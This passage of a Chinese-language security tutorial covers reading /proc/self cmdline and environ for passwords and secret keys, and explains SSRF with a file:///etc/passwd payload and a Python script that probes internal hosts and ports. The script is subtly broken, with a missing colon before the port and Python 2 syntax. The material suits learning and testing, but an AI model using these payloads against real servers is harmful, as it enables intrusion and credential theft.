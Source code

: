 ### proc

proc目录通常存储着进程动态运行的各种信息，如果要查看当前进程的

```
/proc/self
```

下面的cmdline就可以读出比较敏感的信息，假如用户使用`Mysql -uxx -pxx`登陆，则可以读到

```
/proc/self(或者对应的pid)/cmdline
```

使用`cwd`可以跳转到当前目录

```
/proc/self(或者对应的pid)/cwd
```

环境变量中可能存在secret_key，使用environ读取

```
/proc/self(或者对应的pid)/environ
```



# SSRF

SSRF(Server Side Request Forgery，服务端请求伪造)，SSRF漏洞的成因多是服务端提供了从外部服务获取数据的功能，但没有对目标地址、协议等重要参数进行过滤和限制

比如一个web

```
http://example.com/opeurl.php?url=http://www.baidu.com/1.png
```

此时如果我们访问

```
http://example.com/opeurl.php?url=file://etc/passwd
```

如果没有做限制，那么我们就可以访问到本地敏感文件

## SSRF的寻找和测试

常用的协议有

- file://
- dict://
- gopher://

## SSRF的攻击方式

### 内部服务资产探测

```python
import requests as req
import time
ports = ['80','3306','8080']
session = req.Session()
for i in xrange(255):
    ip = "192.168.1." + str(i)
    for port in ports:
        url = "http://example.com/?url=http://"+ip+port
    	res = session.get(url,timeout=3)
        if len(res.content) > 0:
            print(ip,port,"is open")
print("Done")
```